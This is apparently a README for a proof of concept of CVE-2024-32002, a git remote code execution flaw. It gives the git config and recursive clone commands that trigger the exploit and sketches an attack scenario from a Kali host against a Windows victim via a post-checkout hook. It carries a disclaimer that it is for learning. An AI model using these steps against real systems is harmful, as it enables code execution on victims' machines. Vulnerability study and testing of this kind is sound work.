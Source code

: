 # CVE-2024-32002 PoC
1. You must set up the git's symbolic link option like:
```
git config --global core.symlinks true
```

2. Then exploit CVE-2024-32002 by the following command:
```
git clone --recursive https://github.com/EQSTSeminar/git_rce.git
```

# Attack Scenario
kali(192.168.216.129) --Give remote repository address--> Win(192.168.216.130)\n
kali(192.168.216.129) <--Git clone && hook script(post-checkout) execution-- Win(192.168.216.130)

# Warning
This repository is not intended to be git clone RCE exploit to CVE-2024-32002. The purpose of this project is to help people learn about this vulnerability, and perhaps test their own applications.

